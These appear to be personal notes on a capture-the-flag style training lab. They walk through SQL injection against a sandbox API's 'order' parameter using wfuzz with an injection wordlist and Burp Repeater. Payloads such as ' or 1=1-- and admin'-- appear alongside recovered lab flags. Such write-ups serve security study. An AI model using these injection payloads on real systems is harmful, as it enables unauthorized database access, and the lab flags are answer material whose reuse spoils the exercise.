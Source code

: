 ```sql
┌──(root💀gobots)-[20Aug2024 00:03:06]-[/home/kali]
└─# wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "db=mysql&name=test&sort=id&order=FUZZ" -u http://sql-sandbox/discovery/api/fuzzing
```
![[Pasted image 20240819203324.png]]
now we can see a parameter that possibly works, we can test it in repeater by placing `' or 1=1--` in the `order=` field
profit
![[Pasted image 20240819203431.png]]

2. `OS{7ABD7BBCAA402D0DA8E024545B66EA1A}`
![[Pasted image 20240819205820.png]]
Startpoint - entering `test` in name to get  a `Burpsuite` request
![[Pasted image 20240819203622.png]]
sending to repeater
![[Pasted image 20240819203730.png]]
pull the `variables:"db=postgres&name=test&sort=id&order=asc"`   and `url: http://sql-sandbox/discovery/api/fuzzing` begin fuzzing by replacing `order=asc` with `order=FUZZ`

```sql
┌──(root💀gobots)-[20Aug2024 00:03:06]-[/home/kali]
└─# wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "db=postgres&name=test&sort=id&order=FUZZ" -u http://sql-sandbox/discovery/api/fuzzing
```
The `FUZZ` shows some results that we cant try
![[Pasted image 20240819204427.png]]
trying `'` shows the actual `SQL` that is being utilized with the query
`SELECT id, name, description, price FROM menu WHERE lower(name) LIKE lower('%%test%%') ORDER BY id '`
![[Pasted image 20240819205253.png]]
throwing any word like `test` in the order field spits out the `FLAG`
![[Pasted image 20240819205510.png]]
however `admin'--` also works, which was a `500` error string that showed in the `FUZZ`
![[Pasted image 20240819205554.png]]
I also remembered the `%%test%%` being utilized in a section above, so tried `%foo') or id=11-- %')` which also worked
![[Pasted image 20240819205718.png]]

3. `OS{95E31FE55146075BFCA03885C04CE635}`
![[Pasted image 20240819210757.png]]
Starting point to get `POST` request in `BURP`
![[Pasted image 20240819210019.png]]
Send to repeater
![[Pasted image 20240819210048.png]]
throw `'` into the `order` field and `GG`, nah just kidding im gonna walk through the methodology still
![[Pasted image 20240819210143.png]]
take the variables `db=oracle&name=test&sort=id&order=asc` and the url `http://sql-sandbox/discovery/api/fuzzing` to use in `FUZZ` command
